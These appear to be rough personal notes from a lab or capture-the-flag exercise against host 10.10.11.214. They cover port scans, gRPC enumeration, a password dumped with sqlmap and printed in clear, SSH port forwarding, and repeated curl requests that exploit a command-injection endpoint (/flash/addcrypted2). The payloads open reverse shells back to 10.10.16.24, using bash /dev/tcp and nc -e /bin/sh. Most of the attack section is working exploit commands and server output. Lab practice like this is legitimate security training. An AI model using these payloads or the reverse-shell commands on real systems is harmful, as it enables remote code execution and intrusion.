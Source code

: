 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3      *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207      *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|_      CVE-2021-36368  2.6     https://vulners.com/cve/CVE-2021-36368
50051/tcp open  unknown

none o fwhich give us rce

![](20230618140630.png)

└─$ gobuster dir --url http://10.10.11.214:50051 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.214:50051
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/18 19:19:36 Starting gobuster in directory enumeration mode
===============================================================

Error: error on running gobuster: unable to connect to http://10.10.11.214:50051/: Get "http://10.10.11.214:50051/": net/http: HTTP/1.x transport connection broken: malformed HTTP status code "\x00\xfe\x03\x00\x00\x00\x01\x00\x00\x04\b\x00\x00\x00\x00\x00\x00?\x00\x00"


gobuster not working

https://www.youtube.com/watch?v=fGG7BMS-RZI

rustscan can be better than nmap

50051 is grpc

grpccui

can expose the methods

admin user exists

through sqlmap sau:HereIsYourPassWord1431

sqlmap -r req --batch --dump

ss -tn1

curl http://127.0.0.1:8000


we see that there is website running at 8000
we can port forward

ssh -L 9000:127.0.0.1:8000 sau@10.10.11.214

![](20230618200124.png)


we have an arbitary command execution vuln

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:9000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'
```

HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Mon, 19 Jun 2023 00:04:39 GMT
Server: Cheroot/8.6.0

Could not decrypt key   


curl -i -s -k -X $'POST' \
    --data-binary $'jk=%0Apyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B%0Af=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"nc%2010.10.16.24%201234");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.24/1234 0>&1'");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A



curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A
");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'


%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=pyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'


pyimport os;os.system("./tmp/script.sh");f=function f2(){};

pyimport os;os.system("nc 10.10.16.24 1234");
pyimport%20os%3Bos.system(%22nc%2010.10.16.24%201234%22)%3B

# trying netcat as /dev/tcp doesnot exists

nc -e /bin/sh 10.10.16.24 1234
pyimport%20os;os.system("nc%20-e%20/bin/sh%2010.10.16.24%201234");
pyimport%20os%3Bos.system(%22nc%20-e%20%2Fbin%2Fsh%2010.10.16.24%201234%22)%3B%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jkpyimport%20os%3Bos.system(%22nc%2010.10.16.24%201234%22)%3Bf=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'